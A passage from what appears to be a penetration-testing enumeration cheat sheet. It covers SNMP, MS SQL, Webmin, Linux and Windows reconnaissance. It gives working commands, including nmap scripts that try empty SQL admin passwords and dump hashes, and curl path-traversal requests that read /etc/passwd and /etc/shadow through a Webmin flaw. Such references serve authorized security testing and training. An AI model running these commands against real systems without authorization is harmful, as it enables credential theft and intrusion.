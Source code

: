     -   SNMP Default Credentials  
        /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt
 
 
-   MS SQL Server Enumeration
 
    -   Nmap Information Gathering
       
        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`
       
-   Webmin and miniserv/0.01 Enumeration - Port 10000
 
      Test for LFI & file disclosure vulnerability by grabbing /etc/passwd
       
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`
       
      Test to see if webmin is running as root by grabbing /etc/shadow
     
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`
 
-   Linux OS Enumeration
 
    -   List all SUID files  
        `find / -perm -4000 2>/dev/null`
 
    -   Determine the current version of Linux  
        `cat /etc/issue`
 
    -   Determine more information about the environment  
        `uname -a`
       
    -   List processes running  
        `ps -xaf`
 
    -   List the allowed (and forbidden) commands for the invoking use  
        `sudo -l`
 
    -   List iptables rules  
        `iptables --table nat --list  
        iptables -vL -t filter  
        iptables -vL -t nat  
        iptables -vL -t mangle  
        iptables -vL -t raw  
        iptables -vL -t security`
 
-   Windows OS Enumeration
 
 
    -   net config Workstation
   
    -   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
   
    -   hostname
   
    -   net users
   